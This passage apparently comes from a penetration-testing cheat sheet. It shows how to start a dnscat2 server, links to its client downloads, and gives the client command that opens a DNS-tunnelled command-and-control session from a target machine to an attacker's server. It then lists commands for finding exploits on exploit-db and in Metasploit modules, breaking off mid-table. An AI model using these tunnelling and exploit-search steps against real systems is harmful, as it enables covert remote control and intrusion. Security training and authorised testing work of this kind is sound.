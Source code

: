 Run dnscat2: 

```
ruby ./dnscat2.rb
dnscat2> New session established: 1422
dnscat2> session -i 1422
```

Target Machine: 

https://downloads.skullsecurity.org/dnscat2/
https://github.com/lukebaggett/dnscat2-powershell/

```
dnscat --host <dnscat server_ip>
```
## BOF / Exploit

## Exploit Research

Find exploits for enumerated hosts / services.

<div class="mobile-side-scroller">
<table>
  <thead>
    <tr>
      <th>Command</th>
      <th>Description</th>
    </tr>
  </thead>
  <tbody>

    <tr>
      <td>
        <p><code>searchsploit windows 2003 | grep -i local</code></p>
      </td>
      <td>
            <p>Search exploit-db for exploit, in this example windows 2003 + local esc</p>
      </td>
    </tr>

    <tr>
      <td>
        <p><code>site:exploit-db.com exploit kernel <= 3</code></p>
      </td>
      <td>
            <p>Use google to search exploit-db.com for exploits</p>
      </td>
    </tr>

    <tr>
      <td>
        <p><code>grep -R "W7" /usr/share/metasploit-framework<br>/modules/exploit/windows/*</code></p>
      </td>
      <td>
            <p>Search metasploit modules using grep - msf search sucks a bit</p>
      </td>
    </tr>
